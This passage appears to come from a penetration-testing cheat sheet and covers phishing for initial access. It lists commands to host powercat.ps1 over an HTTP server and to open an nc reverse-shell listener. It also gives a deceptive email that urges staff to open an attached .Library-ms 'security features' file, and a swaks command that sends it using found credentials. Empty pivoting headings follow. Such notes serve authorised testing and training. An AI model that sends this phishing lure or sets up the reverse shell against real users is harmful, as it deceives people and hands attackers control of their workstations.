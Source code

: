 Remeber, this is only for the powercat.ps1
```
python3 -m http.server $webport
```

Set up your nc listener for the reverse shell:
```
nc -nlvp $lport
```

Make a body.txt to send to the users in the mail server:
```
Hey!
I checked this MACHINE and discovered that the previously used staging script still exists in the Git logs.
I'll remove it for security reasons.
On an unrelated note, please install the new security features on your workstation.
For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!
John
```

Using swaks to send the email:
```
sudo swaks -t username1@mailserver.com -t user2@mailserver.com --from john@mailserver.com --attach @config.Library-ms --server $mailserver_ip --body @body.txt --header "Subject: Git Vulnerability" --suppress-data -ap
```
You will be asked for a login. Enter the credentials founded and send the e-mail. Now just wait for your reverse shell

## Pivoting

### SSH Local Port Forwarding

### SSH Dynamic Port Forwarding

### SSH Remote Port Forwarding

### SSH Remote Dynamic Port Forwarding

### sshutle

### PLink

### netsh

### ssh.exe

### Chisel (very important!)

### dnscat
